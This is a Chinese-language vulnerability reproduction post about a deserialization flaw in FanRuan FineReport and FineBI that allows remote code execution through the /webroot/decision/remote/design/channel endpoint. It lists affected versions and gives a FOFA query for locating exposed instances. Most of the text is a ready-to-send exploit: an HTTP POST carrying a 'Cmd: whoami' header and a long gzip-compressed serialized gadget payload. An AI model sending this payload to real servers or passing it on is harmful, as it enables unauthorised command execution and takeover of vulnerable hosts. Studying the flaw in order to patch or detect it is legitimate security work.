

# 帆软报表 channel 反序列化漏洞复现

### 0x01 产品简介

 FineReport、[FineBI](https://so.csdn.net/so/search?q=FineBI&spm=1001.2101.3001.7020) 是帆软软件开发的企业级报表设计和数据分析工具与商业智能平台。

### 0x02 漏洞概述

 [帆软](https://so.csdn.net/so/search?q=%E5%B8%86%E8%BD%AF&spm=1001.2101.3001.7020)FineReport、FineBI 存在反序列化漏洞，攻击者可向 /webroot/decision/remote/design/channel 接口发送精心构造的反序列化数据，在目标服务器上执行任意代码，获取服务器权限。

### 0x03 影响范围

FineBI  <= V5.1.10

### 0x04 复现环境

FOFA：app="帆软-FineReport"



### 0x05 漏洞复现

Exp

```cobol
POST /webroot/decision/remote/design/channel HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 17531

{{unquote("\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\xff\x9cz\x09|T\xd5\xf5\xff\xf7\xbcY\xde\x9b\xc9\xcb6!\x09\x83\x88\x01Y\xb3\x0d\xb2\xa9\x13eIX\x0c$\x01\x0d\x05C\xb4\xf82\xf3\x92\x0c\xcc\xbc7\xbc\xf7\x06\x12\xab\xe2\xdf\xa5\xf5\xa7?\x15\xc5\x8a\xd8j\xd1\xb6\xa6\x0a\xdahu\x88R\x16E\xb1\x8bK\xdd\xda\xbaW+.\xadK[\xdb\x7f\xadb\xf3\xfb\xdc\xfbf\x86L\x18\xa2m>\xe1\xdd\xfb\xce=\xe7\xdcs\xcf\xfd\xdes\xce\x7da\xd7Gp\x99\x06\x8a\xd7\x29\x1b\x95\xda\x84\x15\x89\xd6\x9e\xa5\x98\xdd\xcdJ\xdc%\xbe\xf2\xe8\xc1\xb2\x0b\x9es@X\x0coTW\xc2\x8b\x95\x90\xa5\x1b\x8d\xf0X\xdd\x86jv\xeb\xd1pO|\xde|\xf0\x9fM\x12\x00b\xffL\x03\xd3Cz\xac\xb6\xd3\xa8\xb5\xba#F\xb8V7\xbaj\xbb#\x1d\xaa\xa1\x29\x96Z\xabj]\x11M\xad5\xe3\x91\xda\x95\xbdq5\xbcJ\x89&\xd4\xe2\xa7oj\xfe\xf0\xb3_n\x13 4\xc1i\xf5\xc6U\x0b\x93\x9bBz,\xd0i\x04\xb8\x96\x80nt\x052Z\x02\x8c%\xc0\xe4\xeb\x9a\xe0\xda\xc8TX\xf05\xb15\x04\xa2\x8a\xd6\x15X\xde\xb1N\x0dYu=q\xd3@\xcd\x08\xd60=\xb5\x0dz,\xaek\xaaf1\x85\xcb\xbf\x1dx#\x7f\xdd\xfd\xe3\x04\x14\xac\xc1\xd8\x90\xa1*\x96\xba\x28\x16\xb7z9\x97\x19\xb1Ts\x91\xa6tD\xd5\xf0\x1a\xf8\xba\x15\xb3E\xb7Z\x12\xd1\xe8\x0aC\x8f\xab\x86\xd5\xbb\x06\xae\x88\xb9L\xedm\x84\x1cO\x91Z\xe3\x8a\xd6\x84\xc2\x90\xa2-\xd4\x17\xf5X\x86\x12\xb2\"\xbaf\xa1d\x88\xbd\xf5\xba\x1eU\x15\xad\xae\x1dbH1CJX\xb50\xbb\x7d$\x0f\xd8~\x0c\x98\xf1H\xa0\xc1\x96h\xb5z\xa3\xcc\x1f\xc5\xa1\xccz\x12\xf1h\xe4B\xd5\xb00wDg&\xe2Q5\x90\x91\x0a4\x0c\x97\xafk\x82W\xd5\xac\x88\xd5\xdb\xac3\xcb\xa6\x8c\xa4mQ\x86\xb1\xae\x1dy\xeb\xf4\x88\xa6\x86\x17\xabV\xa8\xdb\xc2\x94\x11W\xc4\x99Rr\xf9i\xe7\xb5\x281\xd5\xb4P\xd2>\xc4Y\xad\x96\x11\xd1\xba\xea\xdaQ\x92\xe1JD\xa3JG$\x1a\xb1z-\x08\xedk\x86\x28`\x7bj~\xd5\xd4G\xe1\xd4\x8e\xf1iI\x8e\xcc%\xaa\xa6\x1a\x0a\xdb\xb0V\xcbP,\xb5+\xc2\xb4\xcd\x1cY\x1b\xf7\xe70\xf1\xba&x\xd84\xad!\x9d\xa1\xfb\xd4\xafe\x8e\x7d\xe2z'\xaeL\x0b\xd6\xf5\x18\xa8\xfe*</\xe809\xca\x98\xd4\x8bW>\xbdeG\xcb\xbb$\x00=q\xfb\xa8R\x9c\x9d\x8a\xf9#ia\x0b\xa8\xcd\x00\xa2v\x85\xbeN?\x06\x14\x07\x12\xeb\xc4C\xff>W\x11\xe0lBA\x86\xb9!\xaa\x98\xa6\x85\xe2!\xfb\xc5Il\xfdz\xdc\x8a\xc4l@\x9e9\xd2\xfa;z-5\xa4\x87mt\x9f\xa3vFU~d\x96\xa7\xc5\xeb\x9a \xc7\x15C\xd5\xac%\xaae1u#\xba3\xbd\xa1\x01%\x14RM\x93k\xb5\x05\x8f*j\xfdo\x15\xd9\x82l_\x16\xfe\x07\x1eMo\xd11^]5\xfe\xf9X\xff\x96\xe4~\x01.;\xbe4$LK\x8f-\xe0\x13\xea\x869,\xae\xb4C\xec\xe2\x06\x98\x16N\x1b\x11\x94#;!\xa2\x99\x96\xa2Y\x11\xc5\xd2\x0d\x0b\x81\xafFw\xe3\x10\x01\x16\xb5\xcc\xff\xde\x8a\xb4\x07mx&\x8c\x94\x8a\xe3\xb92\xad\xa2\xd6V\xc13Ij!\xca\x82\x97\xc4\xa5\xef\xc5\x9b\xd2`g\xb9h\xe9\x7f\xa5\xaaY\xb5\xba\xf5pc,\x1e\x9d\xd8\xaa\x1a\x11%\xbaX7b\x85\x1b\x1e\xf0=\xfc\xce\xc2\xbf\xa5\x11\xafYJDS\x0d\x0e\xef\x0d\xb8\x04\xa3\x9aP\x10VCQ\x85\x85\xa7\xa1To\x8c\xabc\xb1,;M\xa5\"Y\xd3\xd1Me<L\xaa\xa2'\xbe\xd1@\x90\x19o&4n\xb7\x12WB\xddjm\x8f\x12U\xb4\xda\x88f\xb1EDk\x7b\xcc\xa8\x15\xaa\xb5\x0c\xa5\xa7v\xa5\x1a\x8bG\x15K5\x99\xdd\x9e\xd5\xcb\x1f\xd5v\xed\x9c\xe9\x80\xbb\x11\xf9k#ZX\xd5\xac\x96D\xacC5\x1aQ\xb0\xd62\x14\xcd\x8c\xaaV\xa3\x16V\x7b\xda\xe1]\x9b>s\xa6\x05G\x7b\x7b\x7d;\xdckC\xf6Q\xf6\xb5\xe78\xcb\xae\xb5Z\xda\xd2&\x14\xaf\xd5\x13V<a\xa5\x92 \x0f\x91e\xb6\x10\xab\x28\x02G\xe9u=q&3\xd9BI\x97j-?F\xaah8\x29>\xf4\x87\xfbs\x02C\xc9\xe0\xe0\xe0`\xc2\xe0\x96.\xfb\xd2_\xda\xd5\xf5\xea\xa9\x99MO\x18\x10\xda\xebw\x7dZ\xfe\x99[Z\xf9\x87\x14y\x92\xf7W\xff~d\x1f\x80Y\xf4\x17/\xc6\x91\xcb\x8b\xc5\xe4f\x0f\x91\xbdJ\x12\x1e\xf4b,y\xbc\xe4\xa5<\xf6\x90E<\xc4\x86\xf3%\xbc\xee\xc5x*\x90\xa8P\xa2\"\x91\x8a%\xf2IT\"\xd2\x28&P*Q\x99\x84\x7bD*\xcfC\x19\x8d\xce#?\x8da\x8f\x13$\xdc!\xd1X\x91Nd\\\xe3D:\xc9K\x154^\xa2\x09\"\x9d,\xe1G^\xdc@\x13\x99\xdeI\x12M\xf6\xd0\x14\x9a\xea\xa5\x294M\xa2J6R\xc5\x84\xaa%\xaa\x11q\x17\xeb\xd6J\x14\x10i\xbaD\xa7H4\x83\x11f\x8a4\x8bY7\xdbKs\xa8J\xa2S\x99\xaa\xd3$:\x9d\xb5A\x89\xeaX\x7b\x86Dg\xb2v\xaeD\xf3\x98\xd6\xf9\x12-`\xef\xf5\x125xp\x03-dS.b\xbd\xc5\"-a\xea\xceb\x8fF\x09\x1fH\xb4T\xa2eL\xa8I\xa2f\xd6\xb6\x88\xb4\xdc\x8b\xe5\xb4B\xa4\xb3\xbd8\x9b\xcea\xc4V\xd6[\xc9\x1e\xdf`\x8fU^\x04h5\xe3:W\xa26/\xad\xa1v6\xdfy\x12\x9d/\xd17%Z+\xd2\x05^\xace\xce_K\x8aD\x1d\xac]-QH\xa2\xb0D\xaaD\x9d^\xea\xa2n\xf6\x88\x88\xb4\xceK\xeb\x29\xea\xc5:\x8aI\xa4\xb1Vg\x8f1\xec\x11gc\x1b\xd8\xc3\x90\xc8\x94\xc8b2\x09\x916z\xb1\x916\xb1G\x94\x0d\xf6\xb0\x1e\x7f\xf4z\xe9B\xfa\x16\x7b\\\xe4\xa5\x8b\xe9\x12\xf6\xf8\x86\xcbN\x88\x98\xc1\x96\xbd\x99\x09\\\xcaxWI\xf4\xff\xd8J.\x93\xe8r\x89\xae`^\xba\x92\xad\xf6\xdb\x12\x7dG\xa2\xab$\xfa\x1f\x09_J\xf8\\\xa2\xabE\xba\x86 D\xe2\x94\xebX\x13\x9cq\xdd\xb0\x28\xab\xd2k\xd4,\xb5K5\xea\x08\xee3\"Z\xc4\x9aKpL\x9d\xb6\x8a\xe0l\xd0\xc3*\xa1\xb0\x29\xa2\xa9\xf69]\xc9\xcaL\xa6Y\x0f\x29\xd1U\x8a\x11a\xef\x29\"\xa9\x84\x8a!j[\xf4\xd6D\xa8\x7bqD\x8d\x86\x17\xf5\x84\xd48/9\x08\x8eP\xd4\xa4\x1c\xc9\x98\xe0\xdc\xa8\x18\xb3\x09\xa5C\x86\xb2\x04\x0du\x03\xe5*\xa9\x09NC5\xe3Lu,Lp\x1b\xaa\x99\x88Z\xc4\x8e\x1c\xc1\x137t;Q\x11\xbc\xec\x96\xa0\xf0\xa0Gp\xe8\x1d\xeb\x08\xde\xcc\xb0I\x28\x1a\x12 \x9a\"&\xd3\xec\xb6E\xb2\xe7]\xc9il^\xab;b\x12\x9cM\x0bf\xd5\x11\\]\x86\x9e\x88\x13\xca\x8fa]\xc2\x06\xea\x08\xd4I\xf0\x0f\x195\xecB\"\xc0\x9dTG\x10\xed\xd9L\xca\xae.3\xf3\x95e\xfb\xbd7\x9e\xf6\xfd\xa8\xe1\xee<\xa3rn]f\x973\x0b\xb2\xa9\xf9\xad\x96\x12Z\xdf\xac\xc4\xb9\xb0H\xd7\x88\xf4\xbf\"]+\xd2\x12\x91N\x16\xe9$\x91F\x89T.\xd2u\"M'x3\x7b`\x12<\xec\xd2\xc5' L\x9az,\xbe\xa6\xe5\xd8\xd6\x09\xc3i-\xba\xb5XOhY\xa8p\xb2\xd8-\xd2,\x82\xa75\xd2\xa5\x29V\xc2P\x09S\xbf\xce\x14\xf6\xa2\\qC\xef\xe9%L\xfe\x0a\x91\xccA\x90\xbau\xd3j\xd4:u\xcaY\xca\x13\xf2\xccx4b\x9d\x93\x02\x93+\xae\x18JL\xc4\xb3\x04\xd7&#b\xa9\x84\xd3rL\xf55'/\xea\x8cDU;\xb1\xb4Z\x86\xaa\xc4\x08cl\xbe\x88\x1eX<l\x8c\x19\xcb\xf8W\x28V7AdY^\xd5,\x82\x93\x11\x09\x05Y\x82u\"-'xCQU1V0\x93\x09N\xb5G\x0d\x11\xbc\xacIXj\x03;$df\xa3\xa35\xa4h\x9a\x1d\x03\xec\xc4I\x10t\x93 \xa6\xceGv\xc4Xa\x13\xebD\xba^\xa4u\"] \xd2\x16\x82h\xa8\x1bU\xc3T\x09Srx\xa61\xa7#<f\xb7\x1a\x8d\xda+\xa3x&.h\xaa\x15h\xd5C\xebUv\x06\x85x$\x13\x15\"z\xa0Q\x1b\xea\x19!\xae\x12\x043\xc2z:\xa5s|D\x0f\x0c\xf3\xa0`\xea\x04j\x14i\xa3H7\x88t#\x8b'\x09\x8d\xe0\x0e\xf3\x1a\x83P\x96\x0b8,\x82\xf8:\x14S\x9d3k!\xe73R\xe0\xf7v\xa9V\x8aB\x18m\xd7A\x0dz,\xa6kf=gO\xf1\x9d\x94c\xc8\x96\xb3\xeb\xb9\xcc\xbeg\xc5\x03\x7b\xac\x8e \xdbs\xdb\xe6\x10d\xdb\xd8p\x7d\xaf\xa52#Z\xf5\x84\x11R\x17s\x18\x88\x0bf\xd52M2n\xc66\x99\xb6\xd2M2\x7d\x97n\x96i\x1b\xdd\"\xd3v\xbaU\xa4ke\xfa\x1e\x7d_\xa6\xdb\xe8v\x99~@;d\xba\x83\xee$8\xbb-+\xceB\x9dbt\xa9\x16\xc1w\xd4\xa0s\x12\x9afG\x187\x0bu\x13\xa7\x13\xc4nE\x0bG\xd9\xb2\xc7\x8d\x1c\xebe\xfa!\xddBpwE\xf5\x0e%J\x28\xc8\x8eE2\xfd\x88~,\xd2u2\xddE\x7d2\xfd\x84\xee&\xe4u\xa9\xec\xc0\xc5u\x8d\xa1\xa8p\xd8A\x97\xe9\x1e\xdaI\x28\x1a\x9e\x00D\xda%\xd3\xbdt\x1f\xc1\xd3\xa5Zg\xa9\x0a\xdf\x94\xa2\xe1\xbb\x29\xe3\x29<-\xd3O\xa9\x9f\xc1N\xb5Z-\xc5J\x98\"\xdd/\xd3\x03\xb8]\xa6\x9f\xd1\x83\x84\x89C\xcaZK\x8f\x85\x14\xcb\xfe\x02\xd5\x91\xe8\xace^o\xe8Nh\xebe<\x81C2=\xc4L\x96L\xd5\xe2\xdb!S\x92Y'\x86\xf5\xd5vx\x28\xc9\x91\xc6R\xd4Z-\xa2su\xf5\x89\xceNf\xacs\x93\xa1\xc4e\xda\x8dC\x84\x8a\xaf\x0a\x972\x0d\xd0\xc3\"=B\x80L\x7b\xe8\xe7\x84\xa2\x90\x1e\x8b\x29Z\xb8B\xd3\xad\x0a-\x11\x8d\xca\xb4\x97v\x10\\'\xb3\x1f\x99\xf6\xd1~\xb6q\x96\x15\x0f\x06\x022\x1d\xa0GY\xfc\xb3\xac\xb8\xc9\xde\xf1\x1a\x9e&PP\xa6\xc7\xe8 aBZY\xea8W\xb0@Y\xd1\xa9\x1b1\xc5\xaaP\x0dC7\xc6\xcb\xb8\x11[ez\x9c\x9e\x90q\x13\xbe\x9b\xe5l;Y\xc9\xb8\x99\x0e\xc9\xf4$\xb6\x11\\\x13\xd9\x0f\xc1\xc7\xe2\xd5pE/\xe0E\x82k>\xfb\x91\xf1:3D\x1e\x1a\xce\x98\x9e_\x10F\x1f/6\xb2\xf1_\xca\xf8\x1c_\xc8x\x81~%\xd3\xaf\x19\xf8\x9fb\x8f\xa7\x19\xc0\x9fan\x10u\xb3\xd6\xce/\xcf\xca\xf4\x1b\x06\x82\xe7\x18\xd9\xb1\x29\xa2\xb1\x82\x88\x1f-\xa1F#\x94\x0f\xc7L\x7d\"\x12\x0d\xab\x86L\xcf\xd3\x0b\x04WE\x8dV1\x8b \x04B\xfc\xc5\xe2/f7\x93\x0e\x89\xf4\xa2L/\xd1oe\xbcN\xbf#\xfb\xebeVl\x15\xe9z\x99~O/3\x93_!\x08\xe7\x292\xbdJ\xaf1\xe8\xef\x90\xe9uzY\xa67\x98\xbb\xc4@GD\x0b\x98<\xd4\xc7\xc2\xb5j\x8f\xcaT\xbe\x99>\x0fGC#S\xf4\x07\x99\xde\xa2\xb7e\xfa#\xf5\x89t\x83L\xef\xd0a\x99\xde\xa5\xc3\"\xdd\xc8\x1c\xf2\x9eL\xef\xd3\x072\xfd\x89\x0e\x13NLoh*\x11\xd8\x7bP]\x113\xbb*j\xe6\xca\xf4g\xe6\x14\x1aO\x28\x19\xce\xa8\xaf\x1f/\xd3\x87tX\xc6\x07\xf8\x13\xa1\x8c\xdd\xffb\x113T[\xbf\xa0uQ&4f\xe2S\x1a\xd5EG\xbf\xe0\xda\x91\x8f0y\xc8\xf9\x0a\xd9A\xb1\x96\x89\x84j;\"\x9ab\xf4f\x18\x85\x05\xb3\x08\xa59\x0b\xa9\xac\x7d\xca*\xa1\xd2\xb1\x8b\xbb\xbd\xd1R\x0d\xc5bu_\xf11\x99+\xebt\xae\xec6\xf4Mv\x94+\xc9\x91d\x08\xa3r\xe5\x14B~\x28a\x18\xaaf\xadL\x95\x88\xa3\xa6N\xcbU\xb4\x15t\xa9V\x96\xf5\xfe\x1c|\xe9\x0aQ\xeaR\xadT\xea\x28\x99\x9a\xab\x9a*\xb2\x13OT1\xd4pj\xcd5_Q\xf2\x0c\xaf2\xf3M\xd5\xb2\xbf\xdeD\xf8\xa2\x9dS\xd7\xb0j\xdf\xc1\x83\x7fV\xfd\x94*\xb0\xa7\xe5\xaa\xb9\xc5.\xd5\xb2+\xe9\xecu\x1f-\xb0R\x9f#L\xc2\x09C\x956t+F\xab\xba!\xa1j!\xb5n\xda\x1aB~\x97j\xb5&\xe2\xaa\x11\xb2\x17.E2;W\x96V\x9d\xb5\xa3u<\x0b\x99-j\x8f\xc5\xaf*kX\xfd\xc8_\xb2M\xc9\xd8\xca\xf2B:\xdf\xce\xcf\xe1\xadc?'\xe4\xf2_&+\x8f>\xde\x18\xc1\x1d\xd16\xea\xebU\xc2\xe99\xfc\xd8\xfe5]\xcb@\x90J\xf1\xce\xa9\xbc\x06\x29>\xe6\xb6Fp\xael[\xb1\x88 \xf2\xbf5,\xefd\xce\xca\xaa\xb1\x8e^\xeb\xf24u\x93\xfdu,\xa4\x12\x8a\x87 \x28m\xb6\xd8\xa9\x1b\xf6f\x962\x00\xb2\x0a\xb3\xc7\xc6a\x93n\xa7S\xff\xb1h\xb4\x87\xea\xb2\x8ei\x96\x8c[\xdd\x90P\xd8m\xaf4\x17\xa8\xd8\xaeYF$F\xf0\x9a\x96bX\xe6\xea\x08\xab\x02Ks\xa1y\x0d\xaf.\xe3Q\x85-`\xe1q\xd1t\\\x94\xe5\xc2\xa7\x8b\xd7\xf7\xb9\x8b\xd5i9o\x04R\\1L\xb5\x91\xd5\xde9\xadl$\x94\x0f\xa5\xa7\xab\xa7:v\xbc\\|\x91\xc7\x91\\E\x28\x9e\x9a]\xc7s\x99\xa9\xed\xf5\xbc\xed\x8c&XBp\x85\xa2:\xab\x8c$KO\x97\x84\x85]\xaa\xb5\xa0\xc3\xd4\xa3\x09+uA\x18Z\xf8\xf4\x9a\x96\x1a\xb3\xeb\xaa\xf4\x9f\x83\x08y\x96\xde\xa4oR\x8d\x06\x85\xe9r+\xf1\xb8\xaa\x7d\x8d0\x92\x95\x11\xeb\xb20yNB\xb3\"\x0c=\xac,\xce\xbc\x94fA&E\xaec\xb7\xba\x1c\xde\x9d\x96\xe3za\xc7\xce\xacP\\\x9e\xd6y\xccE`\xf4\xd4\x9c\x03\xcc\x7dr\xc2T\x17\xaa\xd1H\x8c\x05\x96\xe3lx\xce\xbb\x10\x9b~\x11K\x92\xe9\xe9\xc5\xb0jZ\x86\xde;\xa2\x92ak\xc8u\xb1hdf\x15f\xbe7\xa6\xd5\x8f\x1e\xb2\xba\xe17\xc0\x88\xd9\xc06?L\xf0\x28\x1b\x95H\xd4NX\x8e\xa9\x0cuN;\x019\xa76\xdaH\x8b\xaaj\x9c\xbd.e\xaf\x1e\xb5'b\xf1?\xfd\xd8\xfb\xd3\xac\x9a\xa6\xd2\xc5P\x14\xd1\xd2\xf4\xf9!=\x160\x13\x1a\xff6n\xa7\xe7\x00\xff\xaa\x1bH\x7f\xd5\x0d\xf0\xaf\xba\x01\xc3\xde\xc5@\xe6\x0f:\xa9\x8f\xb6\"\x7d\xe4\xa5\x8f\xc9\x85\xf1\xb8\x81>\x06\xa1\x10\x02\x04V&\x02\x10X\x91\x08\xc0\x03b\x97\x13\x08\xb8\x05p\x19p\xa3\x04\x10\xae\xab\xdcM\x9f\x0c@H\xc2\xd1T\x95\x84\xd3\xe7J\xc2\xdd\\\xedLB\xac\xaeJB:\x00\xcf\x01xZj\x82N\xbfs\xdf\x1c\x97c\x8e\xbb\xd4]\xea\xbaS8\xd7\xef,u\xcf\x08\x8a~\xf1I\xb8\xfb\x84\x06\xbf\x98\x847\x28\xf9%_^\x12\xf2\xad\xc8\xf7K\xbe|\xdes\xf7\x09\x93\xd8\xa8\xd3WpT5#HA\x8f\xdf\xf3\x28\x0a9\x8b\xe0\xf70\x96\xa2!,\x9e\x14\x0b\xa3\x173z\x1f\xca\x82^\xfe\x9eDI\x12%6\xf5Xn64\xca\x16\x28J\x09\xd8\xef9\x14\x97\x0e\xa3\x1f@\xd9\x01>\x8d\xf7a\x94\x13\x82y\xfe\xbc\x871\x9a\xb0\x9d\xdaY\xcfO\x08\xca~\x99I\x8e\x19\"\x293\x8d\xf9\xfe|F?\xc1\xb1\x17c\x938\xd1\x9f\xef\xd8\x8bqI\x9c\x14,\xb0\x07*\x9c\x7b1\xb6\xcd\xe1\x1b\xdf\xcaG\x9d\x7b1\xae\xcd\xe1\x9b\xd0\x9a\xc4I\x070>X\xe8/d\xae\x1c\xbc\xa1\xd2_\x98\xc4\xc9IL\x0c\x16\xf9\x0b\x98\xe0$[\xf0\x01L\xe6\x92\x05\xb6d1~1\x80\x29Lzu\xa5oj\x12\xd3\x82\xc5\xfe\xe2$*\x83\x1e\x7f\xb1\xaf\xcam\xcfU\xdd\xda\xe6drm.[\xba\xc6\xefqsi\x7fQk\x9b\xd3\xc1\x14\xb4\xb9\xfcE\xfb\xd2\x9a\xec\x09k\xed\x09\xfd\xc5C\xe7\xf3\x7b8G\x1f\x96\x07\x8b+\x7d\xd3\xd9\x84>\xbf\xcfw\x8a3=\x13\xd3\xees\xa6\xb5\xb3\x85\x7b\xb2\xd5\xf9r\xaa+\xe8\x83+\x28]\xe1\xa6\xbe/\xfb\xee\x87\x88\x1d\xd8\x89\xfb\xe0\xc33x\x0do\xc2G\x8f\x0b\xd3\x85\x99\x08`\x1e\x16\x0aW\"\x80%\xe8\xe0\xad\x8a+y\x7b\x95\xb0\x99\xb7Nl\x07\xf0\x06N\x05P\x02'F!\x0f\xa5\x28E\x19\xc6\xa0\x1c\x93\xe1\xc7<\x9c\x80%\x18\x8b\x16\x9c\x08\x15\xe3\x10\xc7IH\xa0\x02\x17c<\xae\xc2\x04l\xc5\xc9\xb8\x05\x13\xb1\x03\x93\xb1\x13\xd3p\x1f\xa6\xa0\x1fS\xf1\x28*q\x08Ux\x065x\x0d\xd3\xf1&j\xf1\x16\x02\xf8\x10\xa7\xe0\xaf\x98\x81\x7fa&91\x8b<\x98M\xe5\x98C3q*\xcd\xc5i\xd4\x80\xd3i\x19\x82\x14F\x1d]\x8d3\xe8z\x9cI7b\x1e\xdd\x86\xf9\xf48\xea\xe9\x294\xd0\x0bX\x28\x14`\x910\x1dK\x85\x99X,\xcc\xc6\x12\xe1L\x9c%\x9c\x8fFa3\x96\x09\x97a\xb9p%\x9a\x85\xef\xc0/\\\x8b\xb3q+\x80$|\xe8G1\xbe\x87\xef\xc3\x8b\xb7\x90g\xf7\xe8\x29\x84q\x1bnG\xb1p&\xeay\xcf'\xcc\xc6R\xfc\x00;PL\xcb\xe8T\xdc\x81;\x91Oa\x1a\x87\x1f\xe2N\x14\xd0\xd5\xf8\x0c?\xc2V\x14\xd2m8\x8c\x1f\xe3.\x14\xd1LZ\x8e>\xdc\x09\x19-\xc2,\xfc\x04[!\xe1b\xc1\x85\xbbq'<TN\xebq\x0fv\xc2\x8by\xc2Y\xd8\x85\x7b!\xb2\x28\x82\xfb\xf0S\x00y\xc2\xe5\xe8\xc7\xfd \x94\x0a\xbdx\x00?\x83\x80\xc9B7\x1e\xc4Cp \x09\xa0\x02\x8e\x94\x9d\xbb3v\xee\x86/\xa5w\x00^<\x0c\xe0E\x14\x0f\xe2\x14\x88\"\x1e\x11\xb1G\xc4\xcfExDx\x88\x80#\x28\x15\xb1\xf7\x08\xc6\x88\xd8'\x1c\xc1\x04\x11\xfbU\x11\x07|\xe7\x8b8 \x7f\x89\x99\"\x1e\x15\xf1\xd8 6\xa0\xe8\x18i\x11\x7bE\xec\x13\xb1\xdff\xe2\x1d\xfbw\x1f0\xc8\xbc\xf4\x9f\x88\x88\xa8\x06\x898\xf8\x05\x96\x0dB\x80\x94K\x16\xa8\x17q\xf0s\xd0gp\xe1q\x00N\x10\x02 <\x81Cp\xb0H\x8c\xf5\x10\xe0\x00P\\5\x80\x19\xfd\xcd<\x16\xcf\xaaJbv?\xff\xff3N\xb80\x13\x0e\x0e\xee\x02\xcex\x1e\\8\x1fn|\x93\x83\xa1\x02\x0e\xb89\x04\x9e\x84\xc0\xd4\xa4\xb6\x82\xf5~\x81\xad \xeeP7h\x91\x88_fL\x98\x89_\xf1\xd4\xf0k\x10\x9e\xc2\xd3 f\x0a\xad\x83\x13N\x00;\xab\x0eA\xf6\xcd\xa9J\xe2\xd4\xedp\xfbN\xeb\xafJ\xe2\xf4\xa6*_0\x89\xba\xedXV\xe5;\xc37'\x893\x7dsy\xd3TY\xb5\x1b\xf3|\xf3\x93X\xd0\\\xbd\xcf\xf5\x03\xb8\x7d\xf5\xfd\x95\xd5\x8e\x19\x0f\xa1\xa1\xb2\xda9c\x00\x0b\x070\xe5!,\xda\x83\xc5m\x95\xbb\xb1\xa4\xa5&\x89\xb3|\x8d\xfdU\xbe\xa5\\\xe1\x84c\x15,\xe3\x0a\xaa\x9d3\x92h\xea\xaf\xf25s\xbe\xfcJ\xce\x98DK\xff\xd1\x1e\x90r\xce*\x94\x02\x88 \x1f\xebP\x84\x28J\x11\xc38\xe8\xa8E\x1c\xa7c\x03\xe6\xc1@=,4\"\x81U\xd8\x88\xb5\xd8\x84\x10z\xd0\x89^\xe8\xb8\x10\x17\xe2[\xb8\x14\x17\xe1r\\\x82\xeb\xb0\x19\xdbp\x29\xee\xc0e\xdc\xc9\xb3\xe0\xc2\xe9\xa8\xc13x\x16\x02\xd6B\xe4\xc8w\xe0B\x8c\xc2o8\x0d<j\xd9\x8e\xdf\x89\xe72\x8e/\x87\x98/\x1c\xc1\x29\"\x9e\xff\x1c'\x1f\xc1X\xde\xf1\xfa@x\x01/\xda~\xc7\xcbp\xc0\x05`\xce\x1e,o\xab\xda\x8d\x15-\x7bpv[\xcdn\x9c\xc3\xd2n\xf5\x00Z\x93X\xe9w&\xf1\x0d\xf6X\xd5\x87<FObu\x7fM\x12\xe72\x9cx0\x19\xd3\x10H\xb9b2<\x00\xae\x83\x07[P\x82\x1b0\x167b<\xb6b2n\xc64\xdc\x84*|\x17\xa7`\x1b_\xda\\^\x08\x94\xe0%\xfc\x16NT\xc1\x8d\xefa\x07G\xc1\x9c\xcc\x82\xe6\xe0w|A\xac\xf7\x7bl\x85\x00\x0fj\xf02^\x81\x83/\xd2\x0fa\x10\xd3\xe0\xe4'`\x1f\xff\x7d\x95\x1f\x0d\x11\x02^K\xc3\x0b\xcb\xe0\xe0\x9e*\xaf\xf2\x05m\x005\xdb\xcdR\xde\xf4sDn\xb7\xd1\x0a\xe0\x0en_\x99-\x92\xb1\xa5<\xe5\\\xc2\xebi\xc5\xc2\x1bp\xb2\x15\xd3\x14_\xdb\x00\xd6$\xd1\xde\xcc\x01K-\xd5\xbe\xf3\x92\x90\xb7c~\x95\xef|\xde\xa9\xa8\xf2\x7d\x93W%\xe5\x7b\xb0\xb6m7.\xa8JB\xf1u$\xa1$\x11jr\xef\xc5x\x9e\x92\xdb\x9c\xbepk\x9b\xab\xaa5\xe8\xec\xc3\x99#\x0b\xab\xd9\xc2\x9dL\xb8+%<\x80n\xb6O\x91\x96=X\xd7V\x93\xc4\xfa\xdd\x88\xfabIhA\x97\xdf\x95\x84\xbe\x1dy\xac\x8d\xf7\xc1\xe5\x9b\x13t\xa7\xb86\x1c\xe5JM\xe4w'\xa1\x1c+a\xcf\x1ct\xfb\xddA\xb1\xe6\x10\xc4\x9a$\x0c\xbf\xd8o+_\x1dtgh\xee\xfe\xa0\x94y\x91\xf6\xc3\x89-\xf8\x82\xdc\x08\xf0v\x0c@n*\xe4\xed\x18\x1a\xcb\xda\x14\x90:0\x9a\xe3\xd9\x83]\x28\xc0\xbd\x28\xc2O\xe1G?\xaap?\xe6\xe1gX\x85\x87\xd0\x8d$.\xc2\x00\xb6`\x0f\xb6\xe3\xe7\xd8\x89\xbd\xd8\x8f\x7dx\x0e\xfb\xf1O\x1c\xc0\x17x\x1c\x83x\x82\xdcx\x94$<F\x85x\x9cJ\xf0\x04\x8d\xc1\xe3T\x81'\xf8&\x9f\x07\x0fZ\xe1\xc0\x1bx\x16N\xecD;